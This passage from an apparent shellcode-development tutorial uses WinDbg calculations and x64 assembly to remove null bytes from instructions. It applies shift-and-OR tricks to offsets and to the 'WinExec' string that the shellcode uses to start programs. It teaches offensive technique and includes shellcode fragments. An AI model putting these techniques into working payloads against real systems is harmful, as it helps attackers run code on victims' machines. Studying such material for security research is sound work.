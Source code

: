 ```
0:003> ? -0x208
Evaluate expression: -520 = ffffffff`fffffdf8
```
Therefore the instruction is modified to `add rsp, 0xfffffffffffffdf8`.

The next problem encountered is the instruction `mov edx, [rbx+0x88];"`.

```
0:003> ? 0x88
Evaluate expression: 136 = 00000000`00000088
```

In this case, our approach involves selecting a larger initial value that, when bit-shifted, achieves the desired offset, thereby allowing us to trim off any unnecessary characters. Therefore, a left-shift of the initial value with 20 bits (`0x14`) will be performed.

```
0:003> ? 0x88 << 0x14
Evaluate expression: 142606336 = 00000000`08800000
```

Then, a bitwise OR with `0xFFFFF` is applied to fill the lower bits, modifying the byte pattern without affecting the shifted value:

```
0:003> ? (00000000`08800000|0xFFFFF)
Evaluate expression: 143654911 = 00000000`088fffff
```

Finally, the operation is confirmed by shifting the same 20 bits (`0x14`) to the right, ensuring that the significant bits return to the original value:

```
0:003> ? 0x00000000`088fffff >> 14
Evaluate expression: 136 = 00000000`00000088
```

This is incorporated into our code as follows:

```
xor r12, r12;              # Zero out r12 to start fresh
add r12, 0x88FFFFF;        # Load r12 with a large number
shr r12, 0x14;             # Right-shift r12 by 20 bits to get 0x88
mov edx, [rbx+r12];        # Move the value at rbx+0x88 into edx
```

The last problem we ran into is the following step when trying to move *WinExec* string to the `rax` registry.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-01_19-40.png" alt="">

The same procedure as mentioned above is followed:

```
0:003> ? 0x00636578456E6957 << 8
Evaluate expression: 7162263022003115776 = 63657845`6e695700
0:003> ? (63657845`6e695700|0xFF)
Evaluate expression: 7162263022003116031 = 63657845`6e6957ff
0:003> ? 63657845`6e6957ff >> 8
Evaluate expression: 27977589929699671 = 00636578`456e6957
```
